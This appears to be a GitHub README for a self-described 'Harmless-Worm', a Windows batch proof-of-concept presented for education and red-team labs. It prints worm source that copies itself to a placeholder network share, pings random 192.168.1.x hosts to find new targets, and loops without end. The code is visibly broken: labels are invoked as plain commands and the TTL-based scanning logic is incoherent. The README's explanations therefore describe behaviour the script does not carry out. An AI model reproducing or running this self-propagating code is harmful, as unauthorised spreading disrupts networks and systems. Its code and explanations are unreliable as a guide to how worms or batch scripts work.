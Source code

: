 
# 🪱 Harmless-Worm

A proof-of-concept batch script simulating basic worm-like behavior on Windows systems. It is designed for **educational** and **research** purposes only.

> ⚠️ **DISCLAIMER:**  
> This script demonstrates potentially malicious behavior, including self-replication and unauthorized propagation. It should **only** be executed in a secure, isolated environment (e.g., a virtual machine or test lab). **Do not run this on a production system or network.**

---

## 📜 What It Does

The script is a simplistic Windows batch worm that:

1. **Self-replicates** to a predefined shared folder on a target machine.
2. **Attempts propagation** by scanning for machines in the same subnet.
3. **Creates a harmless file** on the host machine to simulate payload activity.
4. **Runs in an infinite loop**, continuing propagation and payload simulation.

---

## 🔍 Breakdown of the Script

```batch
@echo off
setlocal
```
Suppresses command output and starts a local environment for variables.

---

### 🧬 :copy_worm
```batch
:copy_worm
copy %0 \\target_machine\shared_folder /y
```
Copies the current script (`%0`) to a network shared folder (`\\target_machine\shared_folder`).

---

### 🧪 :run_worm
```batch
:run_worm
ping 127.0.0.1 -n 1 >nul
for /f "tokens=1 delims=:" %%i in ('ping -n 1 -l 1 %computername% ^| find "TTL="') do set ttl=%%i
set /a ttl-=1
for /l %%i in (1,1,%ttl%) do (
    for /f "tokens=1 delims=:" %%j in ('ping -n 1 -l %%i 192.168.1.%random% ^| find "TTL="') do set ttl=%%j
    if %ttl% gtr 0 goto :run_worm
)
```
- Extracts TTL (Time To Live) value from ping response.
- Uses the TTL value to estimate nearby reachable machines.
- Attempts to ping randomized IPs in the `192.168.1.x` subnet.
- If another system responds, it attempts to propagate again.

---

### 🔁 :main
```batch
:main
echo Harmless text file created by worm > C:\harmless_file.txt
copy_worm
run_worm
goto main
```
Simulates a payload by creating a harmless text file and repeatedly attempts self-copying and propagation in an infinite loop.

---

## 🛡️ Security Implications

This script mirrors real-world worm behaviors like:
- **Self-replication**
- **Autonomous spreading**
- **Looped execution with minimal logic**

It does **not** carry a destructive payload, but its behavior could disrupt networks or systems if misused.

---

## 🧪 Use Case

For learning purposes, red-team labs, or demonstrations on:
- Worm propagation logic
- Windows batch scripting capabilities
- Network response evaluation using `ping` and TTL

---

## 📁 Notes

- Replace `\\target_machine\shared_folder` with a valid writable network path for actual testing.
- Ensure test environments are **air-gapped** and non-critical.
